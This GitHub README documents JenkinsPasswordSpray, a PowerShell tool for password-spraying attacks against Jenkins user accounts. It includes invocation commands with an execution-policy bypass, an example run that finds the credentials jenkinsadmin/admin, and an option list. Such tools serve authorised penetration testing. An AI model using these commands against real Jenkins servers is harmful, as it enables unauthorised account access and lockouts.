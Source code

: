 # JenkinsPasswordSpray
JenkinsPasswordSpray is a tool witten in PowerShell to perform password spraying attacks against users of a [Jenkins](https://jenkins.io/) instance. Be careful not to lock out accounts!

## Quick Start Guide
Open a PowerShell terminal from the Windows command line with `powershell.exe -exec bypass` and import the module with `Import-Module JenkinsPasswordSpray.ps1`.

The required options are `URL`, `Username`/`UsernameFile` and `Password`/`PasswordFile`.

The following command will spray against a list of users and attempt to authenticate using each username and a password from the specified list. If a valid login is found, the script will stop unless `-ContinueOnSuccess` is set to `$True`. A confirmation will be prompted unless the `-Force` switch is set. The results of the spray will be output to a file called `sprayed-jenkins.txt`

The script will also try to help you clean up your URL if it's invalid or contains trailing elements like `/login`, as this will make the URL invalid for password spraying. But because your target Jenkins instance might be located in a subdirectory, this feature asks for confirmation before trimming the URL.

Type `Get-Help Invoke-JenkinsPasswordSpra` to see the different options.

### Example command

```PowerShell
Invoke-JenkinsPasswordSpray -URL http://jenkins:8080 -UsernameFile .\users.txt -PasswordFile .\pws.txt -ContinueOnSuccesss $true -Force -Outfile .\sprayed-jenkins.txt
```

### Example command with output

```PowerShell
PS C:\Windows\temp> Invoke-JenkinsPasswordSpray -URL http://10.0.0.7:8080/login/notvalid -Username jenkinsadmin -Password admin -ContinueOnSuccesss $true -Force -OutFile jenkins-sprayed.txt

[-] Detected trailing elements /login/notvalid in provided URL http://10.0.0.7:8080/login/notvalid.
[-] Will now try to remove it for you.
Do you want to use the URL http://10.0.0.7:8080 instead?
[Y] Yes  [N] No  [?] Help (default is "Y"):
[+] Replacing URL: http://10.0.0.7:8080/login/notvalid
[+] Will use this URL: http://10.0.0.7:8080
[+] Testing if URL is valid
[+] Provided URL: http://10.0.0.7:8080 returns 200 OK.

[+] Start password spraying the URL http://10.0.0.7:8080 with 1 user(s) and 1 password(s). Total request count is 1. Current time is 15:21
[+] Writing successful logins to jenkins-sprayed.txt
[Attempt 1 / 1] - Spraying username:jenkinsadmin with password:admin
[+] SUCCESS! Username:jenkinsadmin Password:admin

[+] Password spraying is complete
[*] Any passwords that were successfully sprayed have been written to jenkins-sprayed.txt
```

### Invoke-JenkinsPasswordSpray Options

```
UsernameList      - A list of usernames to spray
Username          - A single username to spray.
Password          - A single password to spray for each specified username.
PasswordList      - A list of passwords, one per line, to use for the password spray.
ContinueOnSuccess - Continue spraying, even if a valid account is found.
Force             - Forces the spray to continue without prompting for confirmation.
OutFile           - A file to output the results to.
```

Please feel free to file issues or pull requests. You can also write to me on Twitter [@chryzsh](https://twitter.com/chryzsh)